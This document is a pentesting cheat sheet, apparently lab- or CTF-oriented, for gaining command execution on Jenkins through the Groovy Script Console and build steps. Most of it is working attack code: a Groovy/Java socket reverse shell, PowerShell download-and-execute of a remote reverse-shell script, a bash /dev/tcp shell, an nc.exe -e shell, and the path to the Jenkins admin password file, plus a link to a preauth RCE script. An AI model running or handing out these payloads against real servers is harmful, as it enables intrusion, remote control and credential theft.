 # jenkins

## Options:

1. Manage Jenkins > Script Console
2. New Project > Execute Command on Build

## Groovy Script Console

```bash
# testing
cmd ="whoami"
cmd =""" cmd.exe /c echo "Hello World" """
println cmd.execute().text

# universal
String host="10.10.14.2";
int port=6969;
String cmd="cmd.exe";
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# WINDOWS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.2.74.151:8888/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text


# LINUX
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.2.74.151/9090;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## New Project Method

```
# windows batch Command
powershell iex (New-Object System.Net.WebClient).DownloadString('http://10.2.74.151:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.2.74.151 -Port 6969
[OR]
powershell wget "http://10.10.14.10/nc.exe" -outFile "nc.exe"
nc.exe -e cmd.exe <IP> <PORT>
```

## admin password file in windows

```
C:\Users\Administrator\.jenkins\secrets\initialAdminPassword
```

## [jenkins v2.150.1 preAuth RCE](https://github.com/iamkashz/ctf-scripts/blob/main/jenkins-preauth-rce-v2.150.1.sh)
